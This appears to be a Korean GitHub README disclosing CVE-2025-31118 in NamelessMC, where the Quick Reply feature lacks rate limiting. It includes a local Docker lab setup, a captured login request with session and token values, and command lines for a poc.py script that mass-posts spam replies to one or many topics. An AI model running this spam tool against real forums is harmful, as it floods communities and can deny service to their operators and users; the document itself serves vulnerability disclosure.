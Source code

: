 # CVE-2025-31118

> 화이트햇 스쿨 3기 - [이정호 (@yuhano)](https://github.com/yuhano)
> 
> 취약점 제보 및 PoC 개발을 모두 직접 수행하였습니다.




## 요약

- NamelessMC는 Minecraft 커뮤니티를 위한 무료 오픈소스 웹사이트 및 포럼 소프트웨어이다.
- `view_topic.php` 파일의 취약점으로 인해 하나의 토픽에 무한히 quick reply을 작성하거나, 토픽 번호만 변경하여 모든 게시글에 대량의 quick reply을 작성할 수 있다.
- v2.1.3 이전 버전에서 취약점이 발견되었으며, v2.2.0 버전에서 패치되었다.

## 참고자료

https://github.com/NamelessMC/Nameless/security/advisories/GHSA-jhvp-mwj4-922m

## 환경설정

1. `docker-compose.yaml` 폴더와 동일한 위치에 다음과 같은 명령어 실행
    
    ```python
    mkdir web
    chown -R 33:33 web
    ```
    
2. `docker compose up -d` 를 실행하여 테스트 환경을 실행.
3. 초기 설정 파일을 docker 로 이동 
    
    ```python
    docker cp ./contents/config.php docker_hw_test-php-1:/data/core/config.php
    docker cp ./contents/modules_enable.php  docker_hw_test-php-1:/data/modules_enable.php
    ```
    
4. http://localhost:8080/modules_enable.php 에 접속하여 초기 설정 완료 
5. http://localhost:8080 에 접속하여 topic 글이 정상적으로 보이는지 확인

### 포럼 비밀번호

- ID: a@gmail.com
- PW: nameless

## POC

단일 Topic에 대해 다량의 댓글을 작성하거나, 여러 Topic에 걸쳐 스팸 댓글을 대량으로 작성할 수 있는 POC 코드이다.

### PHPSESSID 및 TOKEN 획득

포럼 로그인 이후, topic 작성을 캡쳐하여 PHPSESSID 및 TOKEN 획득한다. 

```python
POST /panel/core/modules/?action=enable&m=2 HTTP/1.1
Host: localhost:8080
Content-Length: 38
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="135", "Not-A.Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: ko-KR,ko;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,images/image/avif,images/image/webp,images/image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/panel/core/modules/
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=6c5f097a53e7cba34d09ef9f3f167835; nmc_panel_theme=light; nl2_adm=o8EMh796p3iL0zXUP3R4WADHgjqgNVSxkNSQxTRkbd4
Connection: keep-alive

token=e8d260ccd5c5c17f0cae05150fc8af10
```

### POC  실행방법

1. **싱글 모드** (하나의 Topic에 여러 번 댓글 작성) 

```bash
python poc.py --mode single --token YOUR_TOKEN --phpsessid YOUR_PHPSESSID --topic-id 3 --count 50
```

→ 3번 Topic에 50개의 Quick Reply 작성

**2. 멀티 모드** (여러 Topic에 각각 한 번씩 댓글 작성)

```bash
python poc.py --mode multi --token YOUR_TOKEN --phpsessid YOUR_PHPSESSID --start-id 1 --end-id 100
```

→ 1번 ~ 100번 Topic에 각각 1개의 Quick Reply 작성

### 확인방법

- 싱글 모드
    - `http://localhost:8080/forum/topic/{topic-id}` 접속 → 하단에 `"Quick reply spam message {i}"`들이 쌓이는 것을 확인
- 멀티 모드
    - `http://localhost:8080/forum/view/{forum-id}` 접속 → 각 Topic에 댓글이 생성된 것을 확인

## 결과

스크립트 실행 화면

![alt text](images/image.png)

![alt text](images/image-1.png)


실제 댓글 생성 완료 화면:

![alt text](images/image-2.png)

![alt text](images/image-3.png)

## 취약점 상세 설명

`view_topic.php` 파일의 Quick Reply 기능은 댓글 작성 시 스팸 방지나 쿨다운(cooldown) 검증을 수행 하지 않는다. 

이로 인해 인증된 사용자가 **수십~수백 개의 댓글을 빠르게 연속 작성**할 수 있으며, 이로 인하여 DOS을 발생시킬 수 있다. 

```php
// Quick reply
if (Input::exists()) {
    if (!$user->isLoggedIn() || !$can_reply) {
        Redirect::to(URL::build('/forum'));
    }
    if (Token::check()) {
        $validate = Validate::check($_POST, [
            'content' => [
                Validate::REQUIRED => true,
                Validate::MIN => 2,
                Validate::MAX => 50000
            ]
        ]);
    }
}
```

## 정리

해당 취약점을 통해 인증된 사용자가 특정 Topic에 무제한으로 댓글을 작성하거나, 여러 Topic에 대량으로 댓글을 작성할 수 있는 문제가 있음을 확인했다. 이로 인해 서버 자원 소모 및 서비스 장애가 발생할 수 있으므로, **v2.2.0 버전 이상으로의 업데이트**가 필요하다.
